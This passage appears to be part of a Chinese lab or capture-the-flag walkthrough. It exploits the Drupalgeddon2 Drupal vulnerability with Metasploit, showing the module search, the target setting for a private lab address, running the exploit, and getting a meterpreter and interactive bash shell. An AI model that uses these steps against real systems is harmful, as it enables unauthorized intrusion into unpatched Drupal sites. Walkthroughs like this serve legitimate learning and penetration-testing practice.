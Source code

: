 ### 这个模块利用了表单 API 中的 Drupal 属性注入。

www.rapid7.com](https://www.rapid7.com/db/modules/exploit/unix/webapp/drupal_drupalgeddon2) 

```
msf5 >search Drupalgeddon
```

![](img/c8bc0b05c51c283293fbe8702ff279c7.png)

正在搜索 msf 模块

# 剥削

```
msf5 > use exploit/unix/webapp/drupal_drupalgeddon2 
msf5 exploit(unix/webapp/drupal_drupalgeddon2) > set RHOSTS 192.168.0.185
RHOSTS => 192.168.0.185
msf5 exploit(unix/webapp/drupal_drupalgeddon2) > exploit
meterpreter > sysinfo
```

![](img/f3a6c7803556b10c1f021b5ff040dc0b.png)

msf 漏洞利用

获取交互式外壳

```
$meterpreter > shell
/bin/bash -i 
```

**/bin/bash -i** 给出一个交互式 shell，来自 metasploit :D 的花式命令

![](img/715271122e88380963e7b528ac524c23.png)
